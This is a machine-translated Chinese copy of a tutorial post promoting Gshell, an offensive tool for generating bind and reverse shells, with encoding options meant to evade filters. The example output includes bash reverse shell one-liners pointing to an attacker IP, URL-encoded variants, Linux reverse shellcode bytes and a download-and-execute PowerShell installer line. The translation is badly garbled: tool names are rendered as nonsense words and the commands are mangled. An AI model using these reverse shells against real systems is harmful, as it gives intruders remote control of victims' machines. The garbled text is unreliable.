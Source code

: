# Gshell:一个灵活且可扩展的跨平台 shell 生成器工具

> 原文：<https://kalilinuxtutorials.com/gshell/>

[![](img//b1bd9f0406ca2c1f669a87755e8c1333.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjAz7eJHhDeDGwwv3l1syPqR_kA7ts8hpddBx1W8gwtk228HSJsSd5P_fqVNXg4EOAtaDbVVaRbfwdlSA7rQ1FCdmZhf1H6qA_QDLNmf0ILVEo1MLSQLNLp-pbM_kdSnmxT8No-VUnqMd7xCn6aixQ2kGx4GwD2w2lMOqHEWpIUW87xXyXtYWwDKw3C/s728/image_750x500_62a926e46b6ee%20(1).png)

Gshell 是一个简单而灵活的跨平台 shell 生成器工具。一个跨平台的 shell 生成器工具，可以让您在任何系统中生成任何您想要的 shell，为您提供完全的控制和自动化。

是跨平台的，您可以在以下操作系统中使用它:

*   基于 Unix 的系统
*   GNU/Linux
*   Windows 操作系统
*   马科斯

生成以下 shells:

*   绑定 Shells:目标有一个监听端口，我们连接到目标。
*   反向 Shells:我们有一个监听端口，目标连接到我们。

支持以下编码(截至目前):

*   URL 编码:绕过 URL 过滤器
*   Base64/32/16 编码:绕过字符串/关键字过滤器
*   PowerShell Base64 编码

支持以下 IP 版本:

*   IPv4
*   IPv6

支持的协议:

*   传输控制协议（Transmission Control Protocol）
*   用户数据报协议(User Datagram Protocol)
*   网间控制报文协议(Internet Control Messages Protocol)

**注意:您可以添加自己的使用其他协议的 shells，比如 DNS** 。

支持以下语言和工具:

*   PowerShell
*   计算机编程语言
*   尝试
*   嘘
*   Perl 语言
*   Socat
*   网猫
*   （美国）北卡罗来纳州
*   Awk
*   左上臂
*   NodeJS
*   OpenSSL
*   服务器端编程语言（Professional Hypertext Preprocessor 的缩写）
*   红宝石
*   用于远程联接服务的标准协议或者实现此协议的软件(可为动词)
*   Golang
*   C#
*   镖
*   绝妙的
*   更多…

它是无限的，想加多少就加多少吧！

贝壳被储存在减价文件中，这样对每个人来说都很方便。

您可以通过在以下文件中添加 markdown 代码块来添加更多绑定外壳:

**shell/bind _ shell . MD**

您还可以通过在以下文件中添加 markdown 代码块来添加更多反向 shells:

**shell/reverse _ shell . MD**

这些可以是一行，也可以是多行，没关系。如果你愿意，你甚至可以添加 C#多行代码块。

下面是一个反向 shell 命令示例:

**bash-I>/dev/TCP/192 . 168 . 10 . 11/433 0>1**

要添加另一个 shell，只需在代码或命令中用这些占位符替换 IP 地址和端口占位符或变量值:

*   `**$ip**` : IP 地址
*   `**$port**`:端口号

这里有一个例子:

**bash-I>/dev/TCP/$ IP/$ port 0>1**

# 概观

这是帮助菜单:

**PS c:\ g shell>python g shell . py-h
用法:g shell . py[-I][-p][-s][-r][-b][–中空][–injector][–shellcode][–srev][–sbind][–Linux][–base64][–base32][–URL]
[–no-block][-l][-a][-h]
████████████████████████████ 绑定 shell 和/或反向 shell 的样式
版本:1.2
作者:nozerobit
Twitter:@ nozerobit
选项:
-i，–ip
指定 IP 地址
-p，–port
指定端口号
-s，–shell
指定 shell 类型(python、nc、bash 等)
有效负载类型:
-r，–反向受害者与攻击机器通信 –绑定打开受害机器上的监听器
代码片段类型:
–挖空打印过程挖空代码片段
–注入器打印过程注入器代码片段
Shellcode 必需选项:
–Shellcode 生成 Shellcode， 需要–srev 或–sbind 和–Linux
–srev 反向外壳代码
–sbind 绑定外壳代码
–Linux Linux 外壳代码
编码选项:
–base64 添加 base64 编码
–base32 添加 base32 编码
–base16 添加 base16 编码
–url 添加 URL 编码
Markdown 选项:
–解析
时无阻塞跳过`code blocks`**

## 侦听器和连接器的示例

与 nc TCP 连接:

**nc -v**

使用 nc UDP 连接:

NC-vu IP 端口

## 粘合壳和反向壳示例

示例，生成 bash 反向 shells:

**PS C:\gshell > python。\ g shell . py-I 192.168.111.120-p 443-r-s bash
[+]IP v4 地址:192 . 168 . 111 . 120 有效。
[+]端口号:443 有效。
[+] Shell 类型有效
[+]准备反向 Shell
[+]生成 bash Shell
bash-I>&/dev/TCP/192 . 168 . 111 . 120/443 0>&1
————下一个代码块————————
0<&196；exec 196</dev/TCP/192 . 168 . 111 . 120/443；sh<&196>&196 2>&196
————下一个代码块——————
/bin/bash-l>/dev/TCP/192 . 168 . 111 . 120/443 0<1 2>&1
————下一个代码块———**

## 编码示例

下面是一个编码示例:

**PS C:\gshell > python。\ g shell . py-I 192.168.111.120-p 443-r-s bash–URL
[+]IP v4 地址:192 . 168 . 111 . 120 有效。
[+]端口号:443 有效。
[+] Shell 类型有效
[+]准备反向 Shell
[+]生成 bash Shell
[+]添加 URL 编码
bash+-I+% 3E % 26+% 2f dev % 2 ftcp % 2f 192 . 168 . 111 . 120% 2f 443+0% 3E % 261% 0A
———下一个代码块————
0% 3C % 26196% 30**

## 外壳代码示例

以下是外壳代码的示例:

**PS C:\gshell > python。\ g shell . py-I 192.168.220.131-p 4433–shellcode–srev–Linux
[+]IP v4 地址:192 . 168 . 220 . 131 有效。
[+]端口号:4433 有效。
[+]生成反向外壳代码
[+]生成 Linux 外壳代码
\ x89 \ xe5 \ x31 \ xc0 \ x31 \ xc9 \ x31 \ xd2 \ x50 \ x50 \ xb8 \ x1 \ x1 \ x1 \ xbb \ xc1 \ xa9 \ xdd \ x82 \ x31 \ xc3 \ x53 \ x66 \ x68 \ X11 \ x51 \ x66 \ x6a \ x02 \ x31 \ xc0 \ x31 \ xdb \ x66**

# 在 Linux 中安装

克隆或下载存储库:

**git 克隆 https://github.com/nozerobit/gshell**

安装要求:

**python 3-m pip install-r g shell/requirements . txt**

# 在 Windows 中安装

克隆或下载存储库:

**git 克隆 https://github.com/nozerobit/gshell C:\ Tools**

以 CMD 管理员身份安装 chocolatey:

**@ powershell-no profile-execution policy Bypass-Command " iex((new-object net . webclient)。download string(' https://chocolatey . org/install . PS1 ')"&&设置路径= % PATH %% all users profile % \ chocolate y \ bin**

[**Download**](https://github.com/nozerobit/gshell)